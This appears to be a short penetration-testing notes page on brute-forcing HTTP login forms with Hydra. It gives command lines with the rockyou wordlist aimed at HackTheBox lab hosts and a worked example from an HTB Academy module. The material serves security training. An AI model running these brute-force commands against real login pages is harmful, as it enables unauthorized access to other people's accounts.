



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Hydra

## Usage




```bash
// Some codehydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```





```bash
hydra -L users -P passwords streamio.htb https-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="alert alert-danger">' -I
```




## Example


The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.


We find an HTTP login form (Figure 1) and select something unique from its source code (Figure 2).

<figure><figcaption><p>Figure 1: An HTTP login form.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: A unique string within the source code of a failed login attempt.</p></figcaption></figure>

Then, we pass this information to `hydra` and perform the BFA[^1] against the login form (Figure 3).


```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```


<figure><figcaption><p>Figure 3: Performing a BFA on an HTTP login form.</p></figcaption></figure>

[^1]: Brute Force Attack
